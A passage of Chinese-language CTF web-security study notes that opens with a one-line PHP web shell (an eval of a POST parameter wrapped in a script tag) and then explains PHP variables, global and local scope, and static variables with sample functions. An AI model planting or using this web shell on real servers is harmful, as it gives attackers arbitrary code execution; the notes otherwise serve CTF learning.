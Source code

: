 ![image-20230810142648809](CTF_web.assets/image-20230810142648809.png)

`<script language="php">@eval($_POST['cmd']);</script>`

### PHP变量

与代数类似php可以将某个值赋予某个变量。变量的格式为：
以$开始，后面是变量名，如：$x
变量必须以字母或下划线开头
变量名必须可以包含大小写字母，数字，以及下划线，且区分大小写。
使用类似$x=1;语句来赋值变量
PHP是一门弱类型语言，因此不必转换变量的数据类型

### PHP作用域

PHP变量作用域局部和全局作用域
在所有函数外部定义的变量，拥有全局作用域。除了函数外，全局变量可以被脚本中的任何部分访问，要在一个函数中访问一个全局变量，需要使用global关键字。

当一个函数结束时，函数内的局部变量会被删除，如果希望不被删除可以使用static关键字。

```php
<?php
function change1(){
    global $a;
    $a = 2;
    print("change1 : a = ".$a."\n");
    
}
function change2(){
    $a = 2;
    print("change2 : a = ".$a."\n");
    
}
function change3(){
    static $c = 1;
    $c++;
    print("change3 : c = ".$c."\n");
    $d = 1;
    $d++;
    print("change3 : d = ".$d."\n");
    
}
```